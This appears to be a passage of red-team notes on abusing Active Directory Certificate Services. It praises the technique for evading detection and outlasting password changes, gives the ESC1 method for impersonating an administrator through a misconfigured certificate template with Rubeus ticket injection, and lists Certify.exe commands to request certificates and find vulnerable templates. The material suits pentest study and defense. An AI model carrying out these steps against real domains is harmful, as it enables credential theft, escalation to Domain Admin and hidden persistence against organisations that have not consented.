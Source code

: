 ```powershell
# Certify
Certify.exe request /ca:da.theshrine.local\theshrine-DC-CA /template:user
```



#### Offensive Advantages

1. Doesn’t touch `lsass.exe`’s memory!
2. Doesn’t need elevation (for user contexts)!
3. Few existing detection methods! (_currently_ lesser known technique : )
4. Separate credential material from passwords
   1. Works even if an account changes its password!
   2. Long lifetime. By default, User/Machine templates issue certificates valid for 1 year.

***

## AD CS Abuse

* There are various ways of abusing ADCS!
  * Extract user and machine certificates
  * Use certificates to retrieve NTLM hash
  * User and machine level persistence
  * Escalation to Domain Admin and Enterprise Admin
  * Domain persistence

### Escalation Scenarios and Domain Persistence



#### **ESC1**

1. General Requirements >> An EKU that allows authentication
2. \[PKINIT] Client Authentication, Smart Card Logon, Any Purpose, or No EKU (i.e., EKU allows auth)
3. The ENROLLEE\_SUPPLIES\_SUBJECT flag

#### Methodology

> 1. Find vulnerable cert templates, keep note of the Template name
> 2. Request a template with the template name and using altname specify the user you want to attack
> 3. Using openssl generate the pfx from the private key and sign it with a password
> 4. Using Rubeus request a tgt with the admin pfx and inject it into the session
> 5. Now we will be able to access the shares of the administrator

### Binaries

#### 1. Search for vulnerable certificate templates

```powershell
# Certify
# Enumerate the templates
Certify.exe find
Certify.exe find /enrolleeSuppliesSubject

# Enumerate vulnerable templates
Certify.exe find /vulnerable

# Enumerate vulnerable templates using ca
Certify.exe find /vulnerable /ca:dc.theshire.local\theshire-DC-CA
```
